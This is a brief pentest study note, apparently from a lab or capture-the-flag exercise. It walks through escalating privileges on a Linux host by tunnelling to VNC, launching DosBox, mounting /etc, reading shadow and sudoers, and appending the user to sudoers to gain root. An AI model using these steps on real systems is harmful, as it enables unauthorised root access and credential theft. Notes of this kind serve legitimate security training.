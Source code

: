 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### VNC to DosBox

```bash - linux
netstat -tulpn
```

Look for VNC service:
![[Pasted image 20220404105411.png]]

We see VNC on port 5901.  Let's use port forwarding to access.
Kali:
```bash - kali
ssh -L 5901:localhost:5901 commander@$TARGET
```

Kali:
```bash - kali
vncviewer localhost:5901
```

![[Pasted image 20220404105810.png]]

Now we can open terminal in vncviewer and run dosbox:
```bash - target
dosbox
```

Let's mount the /etc directory to C:

```dosbox - target
mount C /etc
```

Change to the C drive:
```dosbox - target
C:
```

Check to see if you can read a high privileged file (shadow):
```dosbox - target
type shadow
```

```dosbox - target
type sudoers
```

Let's put our current user into the sudoers file:
```dosbox - target
echo <USER> ALL=(ALL) ALL >> sudoers
```

![[Pasted image 20220404120322.png]]

Now back in target terminal:
```bash - target
sudo -i
```

![[Pasted image 20220404120222.png]]

